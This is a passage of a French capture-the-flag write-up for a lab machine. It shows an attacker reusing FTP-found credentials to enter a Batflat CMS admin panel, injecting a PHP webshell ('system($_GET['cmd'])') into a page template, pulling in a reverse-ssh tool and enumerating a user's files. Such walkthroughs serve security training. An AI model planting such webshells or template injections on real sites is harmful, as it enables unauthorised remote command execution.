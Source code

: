 Bingo ! Sur ce FTP on trouve un fichier texte avec des identifiants :

> Hi Bruce!  
> 
> Here are the credentials for the website (you are a bit forgetful).  
> 
> I hope you didn't find 'Port Knocking' too difficult.  
> 
> By the way, you are meeting Dick at 19:00 for coffee before the party at home.  
> 
> USER: bruce  
> PASS: alfred_help_me (Hahahahahaha)

Je trouve la section administrateur à l'URL `/admin` et je peux me connecter via ces identifiants.

Il existe une vulnérabilité pour `Batflat` qui semble être de l'injection de code PHP : [Batflat CMS 1.3.6 - Remote Code Execution (Authenticated) - PHP webapps Exploit](https://www.exploit-db.com/exploits/49573)

Mais j'ai choisis de trouver une autre méthode : le CMS propose un système de templates et en fouillant dans la documentation je vois qu'il est possible d'appeler du code PHP : [Docs - Batflat ~ lightweight, fast and easy CMS for free](https://batflat.org/docs)

Ainsi si j'édite le template de pied de page pour ajouter :

```php
{?= phpinfo() ?}
```

J'obtiens le phpinfo affiché en bas de page.

J'enchaine avec ce webshell :

```php
    <pre>{?= system($_GET["cmd"]) ?}</pre>
```

Qui me permet de rappatrier et exécuter un `reverse-ssh`. Une fois connecté je remarque que le CMS semble utiliser `sqlite` comme système de base de données (d'où le `flat` dans `Batflat` je suppose).

Pour info la base est à l'emplacement suivant mais je n'ai rien trouvé d'intéressant dedans :

```
/var/www/html/batflat/inc/data/database.sdb
```

Je passe donc à l'énumération des fichiers de `batman` sur le système :

```shellsession
www-data@waynemanor:/var/www/html/batflat$ find / -user batman -ls 2> /dev/null 
   924326   2760 -rw-rw-r--   1 batman   batman    2825216 Feb 14 12:39 /tmp/web.tar.gz
  1055614      4 drwxr-xr-x   5 batman   batman       4096 Apr 15  2021 /home/batman
  1055615      4 -rw-r--r--   1 batman   batman        220 Feb 25  2020 /home/batman/.bash_logout
  1055551      4 drwxrwxr-x   3 batman   batman       4096 Mar 26  2021 /home/batman/.local
  1055552      4 drwx------   3 batman   batman       4096 Mar 26  2021 /home/batman/.local/share
  1056105      4 -rw-r--r--   1 batman   batman        807 Feb 25  2020 /home/batman/.profile
  1056785      4 -rwx------   1 batman   batman       2117 Mar 28  2021 /home/batman/local.txt
  1049267      0 -rw-------   1 batman   batman          0 Apr 15  2021 /home/batman/.bash_history
  1055555      4 drwxrwxr-x   2 batman   batman       4096 Mar 26  2021 /home/batman/.web
  1055613      4 -rwxr-xr-x   1 batman   batman         89 Mar 26  2021 /home/batman/.web/script.sh
  1056782      4 drwx------   2 batman   batman       4096 Mar 26  2021 /home/batman/.cache
  1056784      4 -rw-rw-r--   1 batman   batman         66 Mar 26  2021 /home/batman/.selected_editor
```
